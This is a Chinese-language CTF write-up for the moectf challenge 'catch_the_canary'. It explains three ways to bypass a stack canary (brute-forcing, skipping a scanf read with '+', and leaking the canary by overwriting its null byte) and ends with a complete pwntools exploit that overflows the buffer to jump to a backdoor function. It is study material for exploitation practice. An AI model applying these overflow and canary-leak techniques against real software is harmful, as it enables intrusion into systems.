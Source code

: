 # moectf catch_the_canary

by Maple

***Canary绕过的多种方式***

这道题使用两/三种Canary的绕过方式

详细请看[这里](../basic/Canary.md)

## 第一次绕过

<img src="./images/image-20250224102256449.png" alt="image-20250224102256449" style="zoom:80%;" />

第21-24行模拟了32位程序中爆破Canary的方法，

大道至简，一个个试

```python
p.sendline(str(0xabcd00).encode())
for i in range(0x00ffdcba,0x01000000):
    p.sendlineafter(b'n.\n',str(i).encode())
    rec = p.recvuntil(b']')
    if b'Error' not in rec:
        break
```

## 第二次绕过

<img src="./images/image-20250224102948625.png" alt="image-20250224102948625" style="zoom:80%;" />

这里v9的输入存在溢出，可以覆盖v10的值，但是在输入结束后会对v9[0]的值进行检查，那么有什么办法可以绕过输入呢？

有的，兄弟，有的

观察scanf函数，发现格式说明符是`%zu`(读取无符号整数)，解析规则为：

- 有效输入：数字0-9和前导空格
- 无效输入：包含非数字字符（如+，-，字母等），scanf会停止解析，不会修改目标变量，并返回0

所以我们可以输入`+`或`-`来跳过一次输入（准确来说，scanf输入都可以这样绕过）

```python
p.sendlineafter(b't.\n',b'+')
p.sendline(b'1')
p.sendline(str(0xbacd003).encode())
```

## 第三次绕过

这次就是我们常见的覆盖截断泄露Canary了

多输入一位字符覆盖`\x00`，阻止输出截断，然后就可以得到canary的值

```python
p.send(b'b'*25)
p.recvuntil(b'b'*25)
canary = b'\x00'+p.recv(7)
print(canary)
```

## 最终实现

```python
from pwn import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
p = process('./pwn')

#------------1--------------
p.sendline(str(0xabcd00).encode())
for i in range(0x00ffdcba,0x01000000):
    p.sendlineafter(b'n.\n',str(i).encode())
    rec = p.recvuntil(b']')
    if b'Error' not in rec:
        break

#-----------2-------------
p.sendlineafter(b't.\n',b'+')
p.sendline(b'1')
p.sendline(str(0xbacd003).encode())

#----------3------------
backdoor = 0x4012AD
p.send(b'b'*25)
p.recvuntil(b'b'*25)
canary = b'\x00'+p.recv(7)
print(canary)
p.send(b'b'*24+canary+b'b'*0x8+p64(backdoor))

p.interactive()
```

